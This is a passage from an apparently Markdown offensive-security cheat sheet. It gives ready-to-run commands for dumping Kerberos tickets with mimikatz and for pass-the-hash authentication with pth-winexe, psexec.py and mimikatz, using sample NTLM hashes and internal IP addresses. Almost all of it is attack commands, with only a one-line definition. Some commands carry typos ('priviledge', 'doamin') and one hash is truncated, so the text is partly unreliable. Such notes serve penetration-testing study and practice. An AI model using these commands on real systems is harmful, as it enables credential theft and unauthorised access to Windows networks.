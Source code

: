 Dump Kerberos TGT and service tickets:

```powershell
mimikatz.exe "priviledge::debug" "sekurlsa::tickets" exit
```

### Pass the hash

Allows an attacker to authenticate to a remote system or service using a user's NTLM hash instead of the associated plaintext password

```bash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e Administrator@10.0.0.4
```

```powershell
mimikatz.exe "priviledge::debug" "sekurlsa::pth /user:jeff /domain:doamin /ntlm:d4ad8b9f8ccb87f6d02d7388157ae" exit
```